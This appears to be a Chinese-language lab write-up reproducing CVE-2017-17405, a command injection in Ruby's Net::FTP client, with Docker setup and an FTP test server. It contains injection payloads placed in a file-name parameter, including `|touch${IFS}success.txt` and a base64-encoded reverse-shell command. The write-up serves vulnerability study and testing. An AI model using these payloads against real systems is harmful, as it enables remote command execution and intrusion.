



# Ruby Net::FTP 模块命令注入漏洞（CVE-2017-17405）

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

然后即可开始利用漏洞。注入命令`|touch${IFS}success.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：



然后进入docker容器内，可见success.txt已被创建：



执行反弹shell的命令`|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'`，成功反弹：


